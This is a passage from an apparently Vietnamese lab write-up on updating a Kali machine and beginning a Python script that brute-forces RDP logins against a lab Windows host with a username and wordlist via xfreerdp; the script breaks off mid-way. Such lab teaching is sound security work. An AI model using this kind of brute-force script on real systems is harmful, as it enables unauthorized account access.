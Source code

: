 ![text](./Imagers/3.5.1.png)
<p style="text-align:center;"><i>Hình 3.5.1: Kiểm tra IP và Ping ra Internet</i></p>

Sau đó dùng lệnh `sudo apt-get update && sudo apt-get upgrade -y`  để cập nhật repo máy kali. Sau khi quá trình update hoàn tất chúng ta có thể bắt đầu thiết lập cuộc tấn công của mình.
###
Để bắt đầu trước tiên tạọ một thư mục mới bằng lệnh `mkdir` chẳng hạn ở đây tôi tạo thư mục tên là ad-project bằng lệnh `mkdir ad-project` để lưu trữ các file được sử dụng phục vụ cho project này. 
###
Giả sử ở đây mình khởi tạo tấn công brute force vào máy WIN10-TARGET với username là lucbt với file từ điển wordlist có sẵn (File này chúng ta sẽ thu thập từ nhiều nguồn và trong bài lab này ta thêm vào wordlist mật khẩu đúng coi như mật khẩu của admin có trong wordlist). 
###
Sau đó chúng ta sẽ sử dụng tool brute-force để thực hiện tấn công. Tôi sẽ thực hiện viết một đoạn script python để brute-force với ip mục tiêu là 192.168.10.100 trên giao thức remote desktop bằng `vi brute_rdp.py`
###
```python
import subprocess
import time

# Cấu hình
target_ip = "192.168.10.100" #IP mục tiêu
username = "lucbt" #Username cần brute-force
password_file = "/home/kali/Desktop/ad-project/password.txt" #Đường dẫn file từ điển

# Tuỳ chọn xfreerdp
xfreerdp_base_cmd = [
    "xfreerdp",
    "/cert:ignore",         # Bỏ qua lỗi SSL certificate
    "+auth-only",           # Chỉ xác thực, không mở GUI 
    "/log-level:ERROR"      # Hiện lỗi đơn giản
]

# Đọc danh sách mật khẩu
with open(password_file, "r") as f:
```